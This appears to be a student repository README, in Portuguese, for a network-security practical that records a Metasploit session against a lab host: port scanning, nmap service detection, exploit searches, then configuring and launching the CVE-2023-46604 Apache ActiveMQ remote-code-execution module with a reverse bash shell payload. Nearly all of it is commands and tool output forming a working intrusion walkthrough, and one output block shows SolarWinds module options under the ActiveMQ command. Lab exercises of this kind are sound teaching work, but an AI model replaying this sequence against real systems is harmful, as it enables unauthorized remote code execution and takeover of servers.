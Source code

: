 
Repositório onde será desenvolvido um trabalho prático sobre segurança de redes e exploit de vulnerabilidade

msfconsole

search -h

search type:auxiliary name:scan

search type:auxiliary name:port scan

<!--
  Matching Modules
  ================

    #   Name                                                            Disclosure Date  Rank    Check  Description
    -   ----                                                            ---------------  ----    -----  -----------
    0   auxiliary/scanner/acpp/login                                                     normal  No     Apple Airport ACPP Authentication Scanner
    1   auxiliary/scanner/http/cisco_firepower_download                 2016-10-10       normal  No     Cisco Firepower Management Console 6.0 Post Auth Report Download Directory Traversal
    2   auxiliary/scanner/http/cisco_ironport_enum                                       normal  No     Cisco Ironport Bruteforce Login Utility
    3   auxiliary/scanner/scada/digi_realport_serialport_scan                            normal  No     Digi RealPort Serial Server Port Scanner
    4   auxiliary/scanner/scada/digi_realport_version                                    normal  No     Digi RealPort Serial Server Version
    5   auxiliary/scanner/http/es_file_explorer_open_port               2019-01-16       normal  No     ES File Explorer Open Port
    6   auxiliary/scanner/portscan/ftpbounce                                             normal  No     FTP Bounce Port Scanner
    7   auxiliary/scanner/http/hp_imc_reportimgservlt_traversal                          normal  No     HP Intelligent Management ReportImgServlt Directory Traversal
    8   auxiliary/scanner/http/http_hsts                                                 normal  No     HTTP Strict Transport Security (HSTS) Detection
    9   auxiliary/scanner/http/infovista_enum                                            normal  No     InfoVista VistaPortal Application Bruteforce Login Utility
    10  auxiliary/scanner/http/support_center_plus_directory_traversal  2014-01-28       normal  No     ManageEngine Support Center Plus Directory Traversal
    11  auxiliary/scanner/natpmp/natpmp_portscan                                         normal  No     NAT-PMP External Port Scanner
    12  auxiliary/scanner/http/openmind_messageos_login                                  normal  No     OpenMind Message-OS Portal Login Brute Force Utility
    13  auxiliary/scanner/portmap/portmap_amp                                            normal  No     Portmapper Amplification Scanner
    14  auxiliary/scanner/sap/sap_router_portscanner                                     normal  No     SAPRouter Port Scanner
    15  auxiliary/scanner/http/squid_pivot_scanning                                      normal  No     Squid Proxy Port Scanner
    16  auxiliary/scanner/misc/sunrpc_portmapper                                         normal  No     SunRPC Portmap Program Enumerator
    17  auxiliary/scanner/http/smt_ipmi_49152_exposure                  2014-06-19       normal  No     Supermicro Onboard IPMI Port 49152 Sensitive File Exposure
    18  auxiliary/scanner/portscan/xmas                                                  normal  No     TCP "XMas" Port Scanner
    19  auxiliary/scanner/portscan/tcp                                                   normal  No     TCP Port Scanner
    20  auxiliary/scanner/portscan/syn                                                   normal  No     TCP SYN Port Scanner
-->

use auxiliary/scanner/portscan/tcp

show options

<!--
  Module options (auxiliary/scanner/portscan/tcp):

    Name         Current Setting  Required  Description
    ----         ---------------  --------  -----------
    CONCURRENCY  10               yes       The number of concurrent ports to check per host
    DELAY        0                yes       The delay between connections, per thread, in milliseconds
    JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
    PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
    RHOSTS       172.16.123.5     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    THREADS      1                yes       The number of concurrent threads (max one per host)
    TIMEOUT      1000             yes       The socket connect timeout in milliseconds


  View the full module info with the info, or info -d command.
-->

show options

<!--
       Name: TCP Port Scanner
     Module: auxiliary/scanner/portscan/tcp
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>
  kris katterjohn <katterjohn@gmail.com>

Check supported:
  No

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  CONCURRENCY  10               yes       The number of concurrent ports to check per host
  DELAY        0                yes       The delay between connections, per thread, in milliseconds
  JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
  PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
  RHOSTS       172.16.123.5     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  THREADS      1                yes       The number of concurrent threads (max one per host)
  TIMEOUT      1000             yes       The socket connect timeout in milliseconds

Description:
  Enumerate open TCP services by performing a full TCP connect on each port.
  This does not need administrative privileges on the source machine, which
  may be useful if pivoting.


View the full module info with the info -d command.
 -->

set RHOSTS 172.16.123.5

set THREADS 4

set PORTS 1-30000

run

<!--
[+] 172.16.123.5:         - 172.16.123.5:1883 - TCP OPEN
[+] 172.16.123.5:         - 172.16.123.5:5672 - TCP OPEN
[+] 172.16.123.5:         - 172.16.123.5:8161 - TCP OPEN
[*] 172.16.123.5:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
-->

db_nmap -h

db_nmap -sV -sC -A -p 1883,5672,8161 172.16.123.5

<!--
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 01:02 UTC
[*] Nmap: Nmap scan report for activemq.subnetwork (172.16.123.5)
[*] Nmap: Host is up (0.00012s latency).
[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 1883/tcp open  mqtt
[*] Nmap: | mqtt-subscribe:
[*] Nmap: |   Topics and their most recent payloads:
[*] Nmap: |     ActiveMQ/Advisory/MasterBroker:
[*] Nmap: |_    ActiveMQ/Advisory/Consumer/Topic/#:
[*] Nmap: 5672/tcp open  amqp?
[*] Nmap: |_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
[*] Nmap: | fingerprint-strings:
[*] Nmap: |   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
[*] Nmap: |     AMQP
[*] Nmap: |     AMQP
[*] Nmap: |     amqp:decode-error
[*] Nmap: |_    7Connection from client using unsupported AMQP attempted
[*] Nmap: 8161/tcp open  http    Jetty 9.4.39.v20210325
[*] Nmap: | http-auth:
[*] Nmap: | HTTP/1.1 401 Unauthorized\x0D
[*] Nmap: |_  basic realm=ActiveMQRealm
[*] Nmap: |_http-title: Error 401 Unauthorized
[*] Nmap: |_http-server-header: Jetty(9.4.39.v20210325)
[*] Nmap: 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[*] Nmap: SF-Port5672-TCP:V=7.94SVN%I=7%D=11/27%Time=6563EAB6%P=x86_64-pc-linux-gnu%
[*] Nmap: SF:r(GetRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\
[*] Nmap: SF:x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S
[*] Nmap: SF:\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x2
[*] Nmap: SF:0client\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89
[*] Nmap: SF:,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04
[*] Nmap: SF:\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0
[*] Nmap: SF:M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20usin
[*] Nmap: SF:g\x20unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\
[*] Nmap: SF:0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\
[*] Nmap: SF:0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11am
[*] Nmap: SF:qp:decode-error\xa17Connection\x20from\x20client\x20using\x20unsupporte
[*] Nmap: SF:d\x20AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\
[*] Nmap: SF:0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0
[*] Nmap: SF:`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa
[*] Nmap: SF:17Connection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attem
[*] Nmap: SF:pted")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\
[*] Nmap: SF:x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\
[*] Nmap: SF:0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Conn
[*] Nmap: SF:ection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")
[*] Nmap: SF:%r(DNSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02
[*] Nmap: SF:\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0
[*] Nmap: SF:S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\
[*] Nmap: SF:x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLS
[*] Nmap: SF:essionReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10
[*] Nmap: SF:\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x0
[*] Nmap: SF:1\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cl
[*] Nmap: SF:ient\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCoo
[*] Nmap: SF:kie,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x
[*] Nmap: SF:0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x
[*] Nmap: SF:1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x
[*] Nmap: SF:20using\x20unsupported\x20AMQP\x20attempted");
[*] Nmap: MAC Address: 02:42:AC:10:7B:05 (Unknown)
[*] Nmap: Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.8
[*] Nmap: Network Distance: 1 hop
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.12 ms activemq.subnetwork (172.16.123.5)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 32.44 seconds
-->

search type:exploit name:activemq
<!--
Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_activemq_upload_jsp          2016-06-01       excellent  No     ActiveMQ web shell upload
   1  exploit/windows/http/apache_activemq_traversal_upload  2015-08-19       excellent  Yes    Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload
   2  exploit/multi/misc/apache_activemq_rce_cve_2023_46604  2023-10-27       excellent  Yes    Apache ActiveMQ Unauthenticated Remote Code Execution
   3  exploit/windows/browser/samsung_security_manager_put   2016-08-05       excellent  No     Samsung Security Manager 1.4 ActiveMQ Broker Service PUT Method Remote Code Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/browser/samsung_security_manager_put
 -->

search type:exploit name:amqp
<!--
Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/windows/misc/solarwinds_amqp_deserialization  2022-10-19       excellent  No     SolarWinds Information Service (SWIS) .NET Deserialization From AMQP RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/misc/solarwinds_amqp_deserialization
 -->

search type:exploit name:jetty
<!--
[-] No results from search
 -->

search type:exploit name:eclipse
<!--
Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/multi/misc/osgi_console_exec  2018-02-13       normal  Yes    Eclipse Equinox OSGi Console Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/misc/osgi_console_exec
 -->

use exploit/multi/misc/apache_activemq_rce_cve_2023_46604

<!--
Module options (exploit/windows/misc/solarwinds_amqp_deserialization):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       The password to authenticate with
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     5671             yes       The target port
   USERNAME  orion            yes       The username to authenticate with


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      LDJdkCjdQhP      no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               172.16.123.6     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
 -->

use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
<!--
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
 -->

show options

<!--
Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                       on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      TjFLxxOi         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               172.16.123.6     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.
 -->

show info

<!--
       Name: Apache ActiveMQ Unauthenticated Remote Code Execution
     Module: exploit/multi/misc/apache_activemq_rce_cve_2023_46604
   Platform: Windows, Linux, Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-10-27

Provided by:
  X1r0z
  sfewer-r7

Module side effects:
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Windows
      1   Linux
      2   Unix

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT    61616            yes       The target port (TCP)
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen o
                                      n all addresses.
  SRVPORT  8080             yes       The local port to listen on.
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)

Payload information:

Description:
  This module exploits a deserialization vulnerability in the OpenWire transport unmarshaller in Apache
  ActiveMQ. Affected versions include 5.18.0 through to 5.18.2, 5.17.0 through to 5.17.5, 5.16.0 through to
  5.16.6, and all versions before 5.15.16.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-46604
  https://github.com/X1r0z/ActiveMQ-RCE
  https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/
  https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis
  https://activemq.apache.org/security-advisories.data/CVE-2023-46604-announcement.txt


View the full module info with the info -d command.
 -->

set RHOSTS 172.16.123.5

set SRVPORT 1234

set TARGET Unix

show payloads

set PAYLOAD payload/cmd/unix/reverse_bash

show options

exploit

ls -la /opt/activemq | grep activemq && echo "\n finished"
